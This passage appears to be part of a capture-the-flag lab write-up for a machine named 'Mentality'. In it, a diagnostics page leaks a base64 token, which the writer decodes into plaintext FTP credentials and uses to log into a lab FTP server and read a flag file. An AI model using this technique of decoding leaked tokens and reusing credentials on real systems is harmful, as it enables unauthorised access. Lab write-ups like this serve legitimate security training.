   <script src="script.js"></script>
</body>
</html>




-----------------------------------------------------------

System Diagnostics · Mentality
[INFO] Initialising diagnostic pipeline…
[INFO] Checking storage nodes… ok
[INFO] Verifying DR replication…… ok
[INFO] Running integrity checks… ok
[INFO] Packaging last differential… ok
[INFO] Secure token generated: ZnRwdXNlcjpTdXBlclNlY3JldDEyMyQ=
[INFO] Diagnostics completed successfully.





echo "ZnRwdXNlcjpTdXBlclNlY3JldDEyMyQ=" | base64 -d


└─$ echo "ZnRwdXNlcjpTdXBlclNlY3JldDEyMyQ=" | base64 -d
ftpuser:SuperSecret123$


ftp ftpuser@192.168.56.107



└─$ ftp ftpuser@192.168.56.107
Connected to 192.168.56.107.
220 Microsoft FTP Service
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||62173|)
150 Opening ASCII mode data connection.
07-17-25  08:52AM              1608612 ad_hc_mentality_htl.html
07-17-25  05:48AM                   34 flag.txt
07-17-25  12:13AM                   75 web.config
226 Transf




┌──(kali㉿kali)-[~/Documents/mentality]
└─$ ls                       
ad_hc_mentality_htl.html  flag.txt  fullScan.txt  scan.txt  web.config
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$  cat flag.txt 
FLAG{this_is_a_test_flag_for_ftp}




---------------------------------------------------------
